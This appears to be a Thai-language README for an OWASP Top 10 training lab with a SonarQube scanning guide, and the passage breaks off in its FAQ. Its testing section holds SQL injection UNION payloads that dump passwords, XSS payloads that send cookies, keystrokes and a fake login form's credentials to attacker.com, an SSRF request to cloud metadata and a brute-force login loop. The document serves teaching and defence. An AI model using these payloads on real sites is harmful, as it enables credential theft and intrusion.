


# 🛡️ การตรวจสอบความปลอดภัยด้วย SonarQube และ OWASP

<div align="center">
   
   <h3>แพลตฟอร์มเรียนรู้ช่องโหว่ความปลอดภัยแบบปฏิบัติจริง</h3>
</div>

## 🌟 บทนำ OWASP

OWASP (Open Web Application Security Project) เป็นองค์กรไม่แสวงหาซลกำไรที่มุ่งเน้นการพัฒนาความปลอดภัยของซอฟต์แวร์ โดยเฉพาะเว็บแอปพลิเคชัน OWASP Top 10 เป็นเอกสารที่รวบรวมภัยคุกคามด้านความปลอดภัยที่พบบ่อยที่สุด 10 อันดับในเว็บแอปพลิเคชัน ซึ่งมีการปรับปรุงทุก 3-4 ปี เพื่อให้สอดคล้องกับภัยคุกคามที่เปลี่ยนแปลงไป

ในปี 2021 OWASP ได้ปรับปรุงรายการภัยคุกคามครั้งล่าสุด โดยมีการเปลี่ยนแปลงที่สำคัญ เช่น การรวม Broken Access Control, Cryptographic Failures และ SSRF เข้ามาในรายการ สะท้อนให้เห็นถึงความเสี่ยงใหม่ๆ ที่เกิดขึ้นในยุคของ cloud computing และ microservices

โปรเจกต์นี้ถูกพัฒนาขึ้นเพื่อให้นักพัฒนา นักทดสอบความปลอดภัย และผู้ที่สนใจ ได้เรียนรู้และเข้าใจช่องโหว่เหล่านี้ผ่านการทดลองจริง โดยจำลองสถานการณ์การโจมตีในสภาพแวดล้อมที่ปลอดภัย


## ช่องโหว่


### 1. SQL Injection

**ไฟล์:** `app.js` (ฟังก์ชัน `/login`)

**คำอธิบาย:** แอปพลิเคชันรวมอินพุตจากผู้ใช้เข้าไปในคำสั่ง SQL โดยตรง โดยไม่มีการป้องกัน ทำให้ผู้ใช้สามารถแทรกคำสั่ง SQL เพื่อเข้าสู่ระบบโดยไม่ต้องรู้รหัสผ่าน

**ตัวอย่างการโจมตี:**
- ชื่อผู้ใช้: `admin' --`
- รหัสผ่าน: (อะไรก็ได้)

**วิธีแก้ไข:** ใช้ Parameterized Queries หรือ Prepared Statements
```javascript
// แก้ไขเป็น
db.get("SELECT * FROM users WHERE username = ? AND password = ?", [username, password], (err, user) => {
  // ...
});
```

### 2. Cross-Site Scripting (XSS)

**ไฟล์:** `app.js` (ฟังก์ชัน `/messages`) และ `public/index.html` (การแสดงข้อความ)

**คำอธิบาย:** แอปพลิเคชันไม่มีการตรวจสอบหรือ sanitize ข้อมูลที่รับเข้ามาจากผู้ใช้ก่อนที่จะนำไปแสดงผล ทำให้สามารถแทรก script ที่จะทำงานบนเบราว์เซอร์ของผู้ใช้งานอื่นได้

**ตัวอย่างการโจมตี:** 
```html
<script>alert('XSS')</script>
```

**วิธีแก้ไข:** ใช้การ sanitize ข้อมูลก่อนนำไปแสดงผล
```javascript
// แก้ไขโดยใช้ escaping library เช่น
const sanitizedMessage = escapeHtml(message);

// หรือใช้ DOM API แทนการใช้ innerHTML
const textNode = document.createTextNode(message);
element.appendChild(textNode);
```

### 3. Insecure Direct Object References (IDOR)

**ไฟล์:** `app.js` (ฟังก์ชัน `/messages/:id`)

**คำอธิบาย:** แอปพลิเคชันอนุญาตให้ผู้ใช้เข้าถึงข้อมูลโดยตรงผ่าน ID โดยไม่มีการตรวจสอบว่าผู้ใช้มีสิทธิ์เข้าถึงข้อมูลนั้นหรือไม่

**วิธีแก้ไข:** เพิ่มการตรวจสอบสิทธิ์ก่อนที่จะให้เข้าถึงข้อมูล
```javascript
// แก้ไขเป็น
const userId = req.cookies.user_id;
db.get("SELECT * FROM messages WHERE id = ? AND (user_id = ? OR user_id IN (SELECT id FROM users WHERE role = 'admin'))", 
  [messageId, userId], (err, message) => {
  // ...
});
```

### 4. Broken Access Control

**ไฟล์:** `app.js` (ฟังก์ชัน `/admin/users`)

**คำอธิบาย:** แอปพลิเคชันตรวจสอบสิทธิ์โดยใช้คุกกี้ที่ผู้ใช้สามารถแก้ไขได้ ทำให้ผู้ใช้ทั่วไปสามารถเปลี่ยนค่าคุกกี้เพื่อเข้าถึงฟังก์ชันของผู้ดูแลระบบได้

**วิธีแก้ไข:** ใช้ session management ที่เหมาะสมและมีการตรวจสอบสิทธิ์ที่ server ทุกครั้ง
```javascript
// แก้ไขโดยใช้ session แทนคุกกี้ธรรมดา
// ต้องเพิ่ม express-session ใน dependencies
const session = require('express-session');
app.use(session({
  secret: 'your-secret-key',
  resave: false,
  saveUninitialized: false,
  cookie: { 
    secure: true, // ใช้กับ HTTPS
    httpOnly: true, 
    sameSite: 'strict'
  }
}));

// และแก้ไขการตรวจสอบสิทธิ์
if (req.session.role === 'admin') {
  // ...
}
```

### 5. การจัดการคุกกี้ที่ไม่ปลอดภัย

**ไฟล์:** `app.js` (ฟังก์ชัน `/login`)

**คำอธิบาย:** แอปพลิเคชันใช้คุกกี้ปกติโดยไม่มีการตั้งค่า security flags เช่น HttpOnly, Secure หรือ SameSite ทำให้คุกกี้ถูกเข้าถึงจาก JavaScript หรือถูกขโมยได้ง่าย

**วิธีแก้ไข:** ตั้งค่าความปลอดภัยให้กับคุกกี้
```javascript
res.cookie('user_id', user.id, { 
  httpOnly: true, 
  secure: process.env.NODE_ENV === 'production', 
  sameSite: 'strict'
});
```

### 6. Cryptographic Failures (การเข้ารหัสที่ไม่ปลอดภัย)

**ไฟล์:** `app.js` (ฟังก์ชัน `/register`)

**คำอธิบาย:** แอปพลิเคชันเก็บรหัสผ่านในรูปแบบ plain text และใช้การเข้ารหัสที่ไม่ปลอดภัย

**ตัวอย่างการโจมตี:**
```javascript
// ดูรหัสผ่านที่เก็บแบบ plain text:
db.get("SELECT password FROM users WHERE username = 'admin'");

// โจมตี weak encryption:
// รหัสผ่านถูกเข้ารหัสด้วย base64 ซึ่งถอดรหัสได้ง่าย
const decodedPassword = Buffer.from(encodedPassword, 'base64').toString();
```

**วิธีแก้ไข:**
```javascript
const bcrypt = require('bcrypt');
const saltRounds = 10;

// เข้ารหัสรหัสผ่านด้วย bcrypt
const hashedPassword = await bcrypt.hash(password, saltRounds);

// เปรียบเทียบรหัสผ่าน
const match = await bcrypt.compare(password, hashedPassword);
```

### 7. Security Misconfiguration (การตั้งค่าความปลอดภัยที่ผิดพลาด)

**ไฟล์:** `app.js` (การตั้งค่า Express)

**คำอธิบาย:** แอปพลิเคชันมีการตั้งค่าที่ไม่ปลอดภัย เช่น เปิด debug mode, ไม่ซ่อน server information

**ตัวอย่างการโจมตี:**
```bash
# ดูข้อมูล error stack trace:
curl http://localhost:3000/undefined-route

# ดูข้อมูล server:
curl -I http://localhost:3000
```

**วิธีแก้ไข:**
```javascript
// ใช้ Helmet เพื่อตั้งค่า HTTP headers
const helmet = require('helmet');
app.use(helmet());

// ปิด debug mode ใน production
if (process.env.NODE_ENV === 'production') {
  app.set('env', 'production');
  app.disable('x-powered-by');
}
```

### 8. Software and Data Integrity Failures (ความล้มเหลวในการตรวจสอบความถูกต้องของซอฟต์แวร์และข้อมูล)

**ไฟล์:** `package.json` และ `app.js`

**คำอธิบาย:** แอปพลิเคชันใช้ dependencies ที่ไม่ปลอดภัยและไม่มีการตรวจสอบความถูกต้องของข้อมูล

**ตัวอย่างการโจมตี:**
```bash
# แทรก malicious package:
npm install evil-package --save

# Prototype pollution:
{"__proto__": {"isAdmin": true}}
```

**วิธีแก้ไข:**
```javascript
// ใช้ Object.freeze() และ Object.seal()
const config = Object.freeze({
  // configuration
});

// ใช้ npm audit และ lockfile
npm audit fix
npm shrinkwrap
```

### 9. Security Logging and Monitoring Failures (ความล้มเหลวในการบันทึกและตรวจสอบความปลอดภัย)

**ไฟล์:** `app.js`

**คำอธิบาย:** แอปพลิเคชันไม่มีการบันทึกกิจกรรมที่สำคัญและไม่มีระบบตรวจจับการโจมตี

**วิธีแก้ไข:**
```javascript
const winston = require('winston');
const logger = winston.createLogger({
  level: 'info',
  format: winston.format.json(),
  defaultMeta: { service: 'user-service' },
  transports: [
    new winston.transports.File({ filename: 'error.log', level: 'error' }),
    new winston.transports.File({ filename: 'combined.log' })
  ]
});

// บันทึกความพยายามในการล็อกอิน
app.post('/login', (req, res) => {
  logger.info('Login attempt', {
    username: req.body.username,
    ip: req.ip,
    userAgent: req.headers['user-agent']
  });
  // ...existing code...
});
```

### 10. Server-Side Request Forgery (SSRF)

**ไฟล์:** `app.js` (ฟังก์ชัน `/fetch-data`)

**คำอธิบาย:** แอปพลิเคชันอนุญาตให้ผู้ใช้ระบุ URL ที่ต้องการดึงข้อมูลโดยไม่มีการตรวจสอบ

**ตัวอย่างการโจมตี:**
```javascript
// เข้าถึง internal service:
fetch('/fetch-data?url=http://internal-api/admin')

// เข้าถึง metadata ของ cloud instance:
fetch('/fetch-data?url=http://169.254.169.254/latest/meta-data/')
```

**วิธีแก้ไข:**
```javascript
const isAllowedUrl = (url) => {
  const allowList = [
    'api.example.com',
    'cdn.example.com'
  ];
  const parsedUrl = new URL(url);
  return allowList.includes(parsedUrl.hostname);
};

app.get('/fetch-data', async (req, res) => {
  const { url } = req.query;
  if (!isAllowedUrl(url)) {
    return res.status(403).json({ error: 'URL ไม่ได้รับอนุญาต' });
  }
  // ...fetch data...
});
```

## 🎯 การทดสอบแบบละเอียด

### 1. SQL Injection (ระดับความเสี่ยง: สูง)

#### ตัวอย่างการโจมตีแบบพื้นฐาน:
```sql
username: admin' --
password: อะไรก็ได้
```

#### ตัวอย่างการโจมตีแบบซับซ้อน:
```sql
# 1. ดึงข้อมูล version ของ SQLite:
username: ' UNION SELECT 1,sqlite_version(),3,4--

# 2. ดึงรายชื่อตารางทั้งหมด:
username: ' UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--

# 3. ดึงข้อมูลผู้ใช้ทั้งหมดพร้อมรหัสผ่าน:
username: ' UNION SELECT id,username,password,role FROM users--
```

#### ผลกระทบ:
- เข้าถึงข้อมูลผู้ใช้ทั้งหมด
- แก้ไขหรือลบข้อมูลในฐานข้อมูล
- ยกระดับสิทธิ์เป็น admin

### 2. Cross-Site Scripting (XSS) (ระดับความเสี่ยง: ปานกลาง-สูง)

#### ตัวอย่างการโจมตี:
```javascript
// 1. การขโมย Cookie:
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

// 2. การติดตั้ง Keylogger:
<script>
document.addEventListener('keyup', function(e) {
  fetch('https://attacker.com/keys?k='+e.key)
});
</script>

// 3. การปลอมแปลงหน้าเว็บ:
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white">
  <h2>กรุณาเข้าสู่ระบบอีกครั้ง</h2>
  <form onsubmit="fetch('https://attacker.com/steal',{
    method:'POST',
    body:JSON.stringify({
      user:this.username.value,
      pass:this.password.value
    })
  });return false">
    <input name="username">
    <input name="password" type="password">
    <button>เข้าสู่ระบบ</button>
  </form>
</div>
```

### 3. Broken Authentication (ระดับความเสี่ยง: สูง)

#### การโจมตีแบบ Brute Force:
```bash
# ทดสอบรหัสผ่านจากไฟล์ passwords.txt:
while read password; do
  curl -X POST http://localhost:3000/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"admin\",\"password\":\"$password\"}"
done < passwords.txt
```

## 🔧 การรันทดสอบอัตโนมัติ

เราได้เตรียมสคริปต์ทดสอบอัตโนมัติไว้ให้:

```bash
# รันทดสอบทั้งหมด
./test.sh

# รันทดสอบเฉพาะ SQL Injection
./test.sh sql

# รันทดสอบเฉพาะ XSS
./test.sh xss
```

## 🧪 การทดสอบช่องโหว่

โปรเจกต์นี้มี UI สำหรับทดสอบช่องโหว่แต่ละประเภท ผู้ใช้สามารถลองโจมตีแอปพลิเคชันด้วยวิธีต่างๆ ตามคำแนะนำในหน้าเว็บ

## 📚 ทรัพยากรที่เกี่ยวข้อง

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)
- [NodeJS Security Best Practices](https://github.com/goldbergyoni/nodebestpractices#6-security-best-practices)

## 📚 แหล่งข้อมูลเพิ่มเติมสำหรับการศึกษา

### เอกสารอ้างอิงหลัก
- [OWASP Top 10:2021](https://owasp.org/Top10/) - เอกสารอ้างอิงหลักเกี่ยวกับภัยคุกคามที่พบบ่อย
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) - คู่มือการทดสอบความปลอดภัยแบบละเอียด
- [OWASP Security Knowledge Framework](https://owasp.org/www-project-security-knowledge-framework/) - เฟรมเวิร์คสำหรับการเรียนรู้ความปลอดภัย

### หลักสูตรและการฝึกอบรม
- [PortSwigger Web Security Academy](https://portswigger.net/web-security) - หลักสูตรฟรีพร้อมแลปปฏิบัติการ
- [SANS Security Awareness](https://www.sans.org/security-awareness-training/) - การฝึกอบรมด้านความปลอดภัยระดับมืออาชีพ
- [Hack The Box](https://www.hackthebox.com/) - แพลตฟอร์มฝึกฝนทักษะ penetration testing

### เครื่องมือและทรัพยากร
- [OWASP ZAP](https://www.zaproxy.org/) - เครื่องมือทดสอบความปลอดภัยฟรี
- [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload) - เครื่องมือทดสอบความปลอดภัยยอดนิยม
- [Security Headers](https://securityheaders.com/) - ตรวจสอบการตั้งค่า HTTP Headers

### บทความและบล็อก
- [Security Boulevard](https://securityboulevard.com/) - ข่าวสารและบทความด้านความปลอดภัย
- [Troy Hunt's Blog](https://www.troyhunt.com/) - บล็อกด้านความปลอดภัยที่มีชื่อเสียง
- [The Daily Swig](https://portswigger.net/daily-swig) - ข่าวสารด้านความปลอดภัยประจำวัน

### ชุมชนและกลุ่มศึกษา
- [OWASP Thailand](https://owasp.org/www-chapter-thailand/) - ชุมชน OWASP ในประเทศไทย
- [Reddit /r/netsec](https://www.reddit.com/r/netsec/) - ชุมชนด้านความปลอดภัยบน Reddit
- [Security StackExchange](https://security.stackexchange.com/) - Q&A ด้านความปลอดภัย

⚠️ **หมายเหตุ**: แหล่งข้อมูลเหล่านี้มีการปรับปรุงอยู่เสมอ ควรตรวจสอบเวอร์ชันล่าสุดจากเว็บไซต์โดยตรง

## 📝 การตรวจสอบความปลอดภัยด้วย SonarQube

| รายละเอียด | คำอธิบาย |
|----------|---------|
| **ชื่อเนื้อหา** | การตรวจสอบความปลอดภัยด้วย SonarQube และ OWASP |
| **วัตถุประสงค์** | เรียนรู้การใช้งาน SonarQube ในการตรวจสอบคุณภาพโค้ดและความปลอดภัยตามมาตรฐาน OWASP |
| **ระดับความยาก** | ปานกลาง |

## 📝 บทนำ SonarQube

SonarQube เป็นเครื่องมือที่ใช้ในการวิเคราะห์คุณภาพโค้ดแบบอัตโนมัติ (Static Code Analysis) ที่ช่วยในการตรวจจับปัญหาด้านความปลอดภัย คุณภาพโค้ด และช่องโหว่ต่างๆ ในการพัฒนาซอฟต์แวร์

### สถิติช่องโหว่ OWASP Top 10 ที่พบบ่อย



### ที่มาและความสำคัญ
การพัฒนาซอฟต์แวร์ในปัจจุบันเผชิญกับความท้าทายด้านความปลอดภัยที่เพิ่มขึ้นอย่างต่อเนื่อง:
- 🔍 พบช่องโหว่ด้านความปลอดภัยเฉลี่ย 3-5 จุดต่อ 1,000 บรรทัดโค้ด
- 💰 ค่าใช้จ่ายในการแก้ไขปัญหาหลังจากระบบ Production สูงกว่าช่วงพัฒนาถึง 30 เท่า
- ⏰ การตรวจพบปัญหาเร็วในช่วงพัฒนาช่วยลดความเสี่ยงและต้นทุนได้อย่างมาก

### ทำไมต้องเลือก SonarQube?
1. **การวิเคราะห์แบบครอบคลุม**
   - ตรวจสอบได้หลายภาษาโปรแกรมมิ่ง
   - วิเคราะห์ทั้ง Security, Quality, Maintainability
   - รองรับการทำงานร่วมกับ CI/CD pipeline

2. **มาตรฐานและการรายงาน**
   - สอดคล้องกับมาตรฐาน OWASP Top 10
   - รายงานผลแบบ Real-time
   - แสดงแนวทางการแก้ไขที่ชัดเจน

3. **การใช้งานและการบำรุงรักษา**
   - ติดตั้งและใช้งานง่าย
   - มี Community Edition ที่ใช้งานฟรี
   - อัปเดตกฎความปลอดภัยสม่ำเสมอ

### ทำไมต้องใช้ SonarQube?
- ตรวจจับปัญหาความปลอดภัยตั้งแต่ขั้นตอนการพัฒนา
- ลดค่าใช้จ่ายในการแก้ไขปัญหาในภายหลัง
- สร้างมาตรฐานการเขียนโค้ดในทีม
- ติดตามคุณภาพโค้ดได้อย่างต่อเนื่อง

## 📋 กรณีศึกษา

1. [**การตรวจสอบพื้นฐาน**](./basic-scan/README.md)
   - การตั้งค่าโปรเจค
   - การตรวจสอบ Code Smells
   - การวิเคราะห์ Technical Debt

2. [**การวิเคราะห์ตาม OWASP Top 10**](./owasp-scan/README.md)
   - การตรวจสอบช่องโหว่ตาม OWASP
   - การจัดการ Security Hotspots
   - แนวทางการแก้ไขปัญหา

## 🛠️ การเตรียมความพร้อม

### ความต้องการของระบบ
- Docker และ Docker Compose
- SonarQube Community Edition หรือสูงกว่า
- Java 11 ขึ้นไป
- หน่วยความจำอย่างน้อย 4GB
- พื้นที่ว่างอย่างน้อย 5GB

## การติดตั้ง SonarQube

1. เริ่มต้น SonarQube server:
```bash
docker-compose up -d sonarqube
```

2. เข้าถึง SonarQube:
   - URL: http://localhost:9000
   - รหัสเริ่มต้น: admin/admin
   - ควรเปลี่ยนรหัสผ่านทันทีหลังเข้าใช้งานครั้งแรก

3. ติดตั้ง OWASP Plugin:
   - ไปที่ Administration > Marketplace
   - ค้นหาและติดตั้ง "OWASP Security Rules"
   - รีสตาร์ท SonarQube

## 🔍 การใช้งาน

### การสร้าง Token
1. เข้าสู่ระบบ SonarQube ด้วยบัญชี admin
2. ไปที่ User > My Account > Security
3. กรอกชื่อ token ที่ต้องการ (เช่น "project-scanner")
4. คลิก Generate และบันทึก token ไว้ (token จะแสดงเพียงครั้งเดียวเท่านั้น)

### การเตรียม Project
1. สร้าง Project ใน SonarQube:
   - ไปที่ Projects > Create Project
   - ตั้งชื่อ Project Key และ Display Name
   - เลือก "Locally" สำหรับการสแกนในเครื่อง

2. สร้างไฟล์ `sonar-project.properties` ในโปรเจค:
```properties
sonar.projectKey=my-project
sonar.projectName=My Project
sonar.sources=src
sonar.sourceEncoding=UTF-8
sonar.host.url=http://localhost:9000
sonar.login=your-token-here
# Optional configurations
sonar.tests=tests
sonar.javascript.lcov.reportPaths=coverage/lcov.info
sonar.coverage.exclusions=**/*.test.js,**/*.spec.js
```

### วิธีการสแกน

#### 1. การสแกนด้วย Docker (แนะนำ):
```bash
# สแกนโปรเจคทั้งหมด
docker run \
    --network=host \
    -v "$(pwd):/usr/src" \
    sonarsource/sonar-scanner-cli \
    -Dsonar.projectKey=my-project \
    -Dsonar.sources=. \
    -Dsonar.host.url=http://localhost:9000 \
    -Dsonar.login=your-token

# สแกนเฉพาะโฟลเดอร์
docker run \
    --network=host \
    -v "$(pwd)/src:/usr/src" \
    sonarsource/sonar-scanner-cli \
    -Dsonar.projectKey=my-project \
    -Dsonar.sources=. \
    -Dsonar.host.url=http://localhost:9000 \
    -Dsonar.login=your-token
```

#### 2. การสแกนด้วย SonarScanner CLI:
```bash
# ดาวน์โหลดและติดตั้ง SonarScanner
wget https://binaries.sonarsource.com/Distribution/sonar-scanner-cli/sonar-scanner-cli-4.7.0.2747-linux.zip
unzip sonar-scanner-cli-4.7.0.2747-linux.zip
export PATH=$PATH:/path/to/sonar-scanner/bin

# รันการสแกน
cd /path/to/your/project
sonar-scanner \
  -Dsonar.projectKey=my-project \
  -Dsonar.sources=. \
  -Dsonar.host.url=http://localhost:9000 \
  -Dsonar.login=your-token
```

#### 3. การสแกนผ่าน Maven (สำหรับโปรเจค Java):
```bash
mvn clean verify sonar:sonar \
  -Dsonar.projectKey=my-project \
  -Dsonar.host.url=http://localhost:9000 \
  -Dsonar.login=your-token
```

#### 4. การสแกนผ่าน Gradle (สำหรับโปรเจค Java):
```bash
./gradlew sonarqube \
  -Dsonar.projectKey=my-project \
  -Dsonar.host.url=http://localhost:9000 \
  -Dsonar.login=your-token
```

## 📊 การตีความผลการสแกน

### ประเภทของปัญหาที่ SonarQube ตรวจจับ

1. **Bugs** - ปัญหาที่อาจทำให้โค้ดทำงานผิดพลาด:
   - Null pointer dereferences
   - Resource leaks
   - Unreachable code

2. **Vulnerabilities** - ปัญหาด้านความปลอดภัย:
   - SQL Injection
   - Cross-Site Scripting (XSS)
   - Insecure configurations
   - Hardcoded credentials

3. **Security Hotspots** - จุดที่ควรตรวจสอบด้านความปลอดภัย:
   - การใช้งาน cryptography
   - การจัดการ cookies
   - การตรวจสอบการเข้าถึง

4. **Code Smells** - ปัญหาด้านการบำรุงรักษา:
   - Duplicated code
   - Complex methods
   - Unused parameters
   - Too many nested statements

### การวิเคราะห์ Quality Gate

Quality Gate คือเงื่อนไขที่กำหนดว่าโค้ดผ่านเกณฑ์คุณภาพที่ยอมรับได้หรือไม่ โดยมีสถานะดังนี้:

- **Passed** (✅) - โค้ดผ่านเกณฑ์ที่กำหนดทั้งหมด
- **Failed** (❌) - โค้ดไม่ผ่านเกณฑ์อย่างน้อยหนึ่งข้อ

ตัวอย่างเกณฑ์ Quality Gate มาตรฐาน:
- ไม่มี Vulnerabilities ใหม่ที่มีระดับความเสี่ยงสูง
- Code Coverage ไม่น้อยกว่า 80%
- Duplicated code ไม่เกิน 3%
- Technical Debt Ratio ไม่เกิน 5% ของเวลาพัฒนา

### การตีความตัวชี้วัดสำคัญ



## 🔧 การแก้ไขปัญหาที่พบบ่อย

### 1. SQL Injection

#### ปัญหาที่พบ:
```java
String query = "SELECT * FROM users WHERE username = '" + username + "'";
```

#### การแก้ไข:
```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE username = ?");
stmt.setString(1, username);
```

### 2. Cross-Site Scripting (XSS)

#### ปัญหาที่พบ:
```javascript
document.getElementById("output").innerHTML = userInput;
```

#### การแก้ไข:
```javascript
const sanitizedInput = DOMPurify.sanitize(userInput);
document.getElementById("output").textContent = sanitizedInput;
```

### 3. Hardcoded Credentials

#### ปัญหาที่พบ:
```javascript
const apiKey = "Abc123XyzSecretKey";
```

#### การแก้ไข:
```javascript
const apiKey = process.env.API_KEY;
```

### 4. Resource Leaks

#### ปัญหาที่พบ:
```java
FileReader reader = new FileReader("file.txt");
reader.read(); // ไม่มีการปิด reader
```

#### การแก้ไข:
```java
try (FileReader reader = new FileReader("file.txt")) {
    reader.read();
} // รีโซร์สจะถูกปิดโดยอัตโนมัติ
```

## 🔄 SonarQube กับ CI/CD Pipeline

### GitHub Actions

```yaml
name: Build and analyze

on:
  push:
    branches: [ main ]
  pull_request:
    branches: [ main ]

jobs:
  build:
    name: Build and analyze
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
        with:
          fetch-depth: 0
      
      - name: Set up JDK 11
        uses: actions/setup-java@v1
        with:
          java-version: 11
      
      - name: Cache SonarCloud packages
        uses: actions/cache@v1
        with:
          path: ~/.sonar/cache
          key: ${{ runner.os }}-sonar
          restore-keys: ${{ runner.os }}-sonar
      
      - name: Build and analyze
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
        run: mvn -B verify org.sonarsource.scanner.maven:sonar-maven-plugin:sonar
```

### GitLab CI

```yaml
sonarqube-check:
  image: maven:3.6.3-jdk-11
  variables:
    SONAR_USER_HOME: "${CI_PROJECT_DIR}/.sonar"  # Defines the location of the scanner task cache
    GIT_DEPTH: "0"  # Tells git to fetch all the branches of the project
  cache:
    key: "${CI_JOB_NAME}"
    paths:
      - .sonar/cache
  script:
    - mvn verify sonar:sonar
  only:
    - merge_requests
    - master
    - develop
```

### Jenkins Pipeline

```groovy
pipeline {
    agent any
    
    stages {
        stage('Build') {
            steps {
                sh 'mvn clean package'
            }
        }
        
        stage('SonarQube analysis') {
            steps {
                withSonarQubeEnv('SonarQube') {
                    sh 'mvn sonar:sonar'
                }
            }
        }
        
        stage("Quality Gate") {
            steps {
                timeout(time: 5, unit: 'MINUTES') {
                    waitForQualityGate abortPipeline: true
                }
            }
        }
    }
}
```

## 💡 Best Practice
### 1. การตั้งค่า Quality Gate ที่เหมาะสม
- เริ่มต้นด้วยเกณฑ์ที่ไม่เข้มงวดเกินไป แล้วค่อยๆ เพิ่มความเข้มงวด
- ตั้งค่า Quality Gate แยกตามประเภทโค้ด (เช่น โค้ดใหม่, โค้ดเดิม)
- มุ่งเน้นปัญหาความปลอดภัยก่อนปัญหาอื่นๆ

### 2. การกำหนดขอบเขตการสแกน
```properties
# รวมเฉพาะบางไฟล์หรือโฟลเดอร์
sonar.inclusions=src/**/*.js,src/**/*.ts

# ยกเว้นบางไฟล์หรือโฟลเดอร์
sonar.exclusions=**/*.spec.js,**/*.test.js,**/node_modules/**

# กำหนดขอบเขตสำหรับ Code Coverage
sonar.coverage.exclusions=**/*.test.js,src/tests/**
```

### 3. การจัดการ False Positives
- ใช้ annotations เพื่อข้าม issues ที่เป็น false positive:
  ```java
  @SuppressWarnings("squid:S1234") // พร้อมระบุเหตุผล
  public void someMethod() { ... }
  ```
- สร้างกฎใหม่หรือแก้ไขกฎที่มีอยู่ให้เข้ากับโปรเจค

### 4. การใช้ Quality Profiles
- ปรับแต่ง Quality Profile ตามความต้องการของโปรเจค
- สร้าง Profile เฉพาะสำหรับแต่ละภาษาโปรแกรมมิ่ง
- แชร์ Profile ระหว่างโปรเจคที่มีมาตรฐานเดียวกัน

### 5. การตรวจสอบอย่างต่อเนื่อง
- ตรวจสอบคุณภาพโค้ดทุกวันหรือทุกครั้งที่มีการ commit
- แก้ไขปัญหาที่พบทันที ไม่ปล่อยให้สะสม
- ใช้ Branch Analysis เพื่อตรวจสอบคุณภาพก่อน merge

## ❓ คำถามที่พบบ่อย (FAQ)

### Q: SonarQube Community Edition แตกต่างจาก Developer/Enterprise Edition อย่างไร?
